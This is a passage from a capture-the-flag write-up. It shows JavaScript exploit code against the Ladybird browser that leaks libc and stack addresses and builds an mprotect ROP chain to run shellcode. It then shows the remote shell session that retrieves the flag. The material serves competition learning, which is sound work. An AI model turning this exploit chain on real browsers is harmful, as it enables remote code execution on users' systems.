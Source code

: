 ```JavaScript
  // Leak libc from read GOT entry
  const libc = readq(read_got) - libc_leak_o;
  loghex(libc);
  // Leak stack from libc's environ
  const stack = readq(libc + environ_o);
  loghex(stack);

  // Compute target address for ROP - somewhere before JS script execution in call stack
  const ret   = stack - ret_o;
  let   ropsz = 0x00n;

  // Add 8-byte to ROP
  function p(q)
  {
    writeq(ret + ropsz, q);
    ropsz += 0x08n;
  }

  // ROP
  p(binary + pop_rdi_o);        // rdi -> page of shellcode
  p(victim_ab_buf & (~0xFFFn));
  p(binary + pop_rsi_o);        // rsi -> 0x1000 (size of page)
  p(0x1000n);
  p(binary + pop_rdx_o);        // rdx -> 0b111 (RWX permissions)
  p(0x07n);
  p(binary + mprotect_o);       // call mprotect
  p(victim_ab_buf);             // jump to shellcode

  // finish JS script execution to run shellcode
}
```
We run it on the remote target and get the following:
```[*] Switching to interactive mode
Starting Ladybird...
248106.266 WebContent(26): (js log) "exploit"
248106.266 WebContent(26): Unable to get ...
248106.266 WebContent(26): EGL extensions: ...
248106.298 WebContent(26): Exported dma_buf fd: 15
248106.302 WebContent(26): (js log) "0x601351848000"
248106.302 WebContent(26): (js log) "0x601376a51490"
248106.302 WebContent(26): (js log) "0x60135883e688"
248106.302 WebContent(26): (js log) "0x73772e059000"
248106.302 WebContent(26): (js log) "0x7ffd6507cf68"
$ whoami
ctf
$ ls -l
total 44
drwxr-xr-x 2 root root  4096 Jun 22 11:08 bin
-rwx------ 1 root root    81 Jun 22 11:08 flag.txt
drwxr-xr-x 1 root root  4096 Jun 22 11:08 libexec
-rwsr-xr-x 1 root root 16264 Jun 20 16:12 read_flag
-r-xr-xr-x 1 root root    56 Jun 20 17:49 run.sh
-r-xr-xr-x 1 root root  1392 Jun 20 10:32 server.py
drwxr-xr-x 3 root root  4096 Jun 20 11:26 share
-r-xr-xr-x 1 root root    75 Jun 20 10:32 socat.sh
$ cat flag.txt
cat: flag.txt: Permission denied
$ ./read_flag
Flag: GPNCTF{finDIn6_7H3_vu1n_waS_eASy_Mak1ng_W3BG1_RUN_0N_LINuX_w4s_H4rD3r_LO1_48529}
```
And here is the flag:
```
GPNCTF{finDIn6_7H3_vu1n_waS_eASy_Mak1ng_W3BG1_RUN_0N_LINuX_w4s_H4rD3r_LO1_48529}
```